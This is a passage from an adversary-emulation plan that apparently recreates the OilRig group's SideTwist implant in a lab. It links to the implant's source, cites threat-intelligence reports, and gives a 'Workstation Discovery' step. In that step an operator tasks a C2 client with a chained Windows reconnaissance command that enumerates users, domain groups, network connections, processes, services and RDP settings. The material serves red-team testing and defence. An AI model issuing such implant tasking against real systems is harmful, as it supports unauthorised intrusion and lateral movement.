 <br>

*  SideTwist Implant: [SideTwist Implant](SideTwist.)
*  SideTwist collects ID info: [SideTwist.cpp#L238-L280](SideTwist.cpp#L238-L280)
*  SideTwist sets IP/port: [SideTwist.cpp#L180-L219](SideTwist.cpp#L180-L219)
*  SideTwist encrypts communications: [comms.cpp#L106-L111](comms.cpp#L106-L111)
*  SideTwist XOR key: [comms.h#L23](comms.h#L23)


<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/

<br>


## Step 2 - Workstation Discovery

### :microphone: Voice Track

Step 2 emulates OilRig performing a string of initial enumeration commands using 
the cmd spawned by `SystemFailureReporter.exe`.

OilRig enumerates the current user, system information, system network 
configuration information, domain users, domain groups, domain accounts, local 
groups, network connections, running processes, running services, and a 
registry key value to check if RDP is enabled.

At this point OilRig has discovered that the current user `gosta` is a member of
`EWS Admins`, that EWS server `WATERFALLS` has the ip address of `10.1.0.6` and 
is part of the `Exchange Trusted Subsystem` group, and the existence of several 
other administrator groups, including `SQL Admins` of which user `tous` is a member.

---

### :biohazard: Procedures

:arrow_right: On Linux Attack Platform `192.168.0.4` as user `saka`, split the existing C2
terminal window horizontally, being careful to not terminate the server.

`Right click > Split Horizontally`

In the bottom split window, issue the following commands to the implant, 
waiting until each task is accomplished before teeing the next one. 

:bulb: The implant will execute every 5 minutes.

```bash
# Helminth has been observed to perform initial information gathering on systems, including the enumeration of the current user, accounts, groups, system information, network connections, processes, services, and if remote desktop is enabled.

./evalsC2client.py --set-task goTb '101 whoami & hostname & ipconfig /all & net user /domain 2>&1 & net group /domain 2>&1 & net group "domain admins" /domain 2>&1 & net group "Exchange Trusted Subsystem" /domain 2>&1 & net accounts /domain 2>&1 & net user 2>&1 & net localgroup administrators 2>&1 & netstat -an 2>&1 & tasklist 2>&1 & sc query 2>&1 & systeminfo 2>&1 & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" 2>&1'
```
